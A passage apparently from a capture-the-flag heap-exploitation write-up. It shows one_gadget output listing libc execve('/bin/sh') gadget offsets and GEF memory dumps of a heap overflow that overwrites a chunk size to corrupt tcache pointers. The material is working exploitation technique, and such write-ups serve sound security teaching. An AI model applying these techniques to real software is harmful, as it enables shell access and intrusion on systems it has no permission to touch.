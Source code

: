 ```
$ one_gadget libc.so 
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Let's take a look at how the memory is corrupted exactly as we do this. First we start out with our chunk which we will overflow (holds `33333333`) followed by a chunk stored in the tcache mechanism with a linked list pointer:

```
gef➤  x/64g 0x55d01d7cc850
0x55d01d7cc850: 0x0 0x101
0x55d01d7cc860: 0x3333333333333333  0x0
0x55d01d7cc870: 0x0 0x0
0x55d01d7cc880: 0x0 0x0
0x55d01d7cc890: 0x0 0x0
0x55d01d7cc8a0: 0x0 0x0
0x55d01d7cc8b0: 0x0 0x0
0x55d01d7cc8c0: 0x0 0x0
0x55d01d7cc8d0: 0x0 0x0
0x55d01d7cc8e0: 0x0 0x0
0x55d01d7cc8f0: 0x0 0x0
0x55d01d7cc900: 0x0 0x0
0x55d01d7cc910: 0x0 0x0
0x55d01d7cc920: 0x0 0x0
0x55d01d7cc930: 0x0 0x0
0x55d01d7cc940: 0x0 0x0
0x55d01d7cc950: 0x0 0x101
0x55d01d7cc960: 0x55d01d7cca60  0x55d01d7cc010
```

Then we will allocate a chunk behind (thanks to a bit of heap grooming) the `33333333` chunk, which will overflow the size value with the byte `0x81`.

```
gef➤  x/64g 0x55d01d7cc790
0x55d01d7cc790: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7a0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7b0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7c0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7d0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7e0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7f0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc800: 0x3434343434343434  0x3434343434343434
0x55d01d7cc810: 0x3434343434343434  0x3434343434343434
0x55d01d7cc820: 0x3434343434343434  0x3434343434343434
0x55d01d7cc830: 0x3434343434343434  0x3434343434343434
0x55d01d7cc840: 0x3434343434343434  0x3434343434343434
0x55d01d7cc850: 0x3434343434343434  0x181
```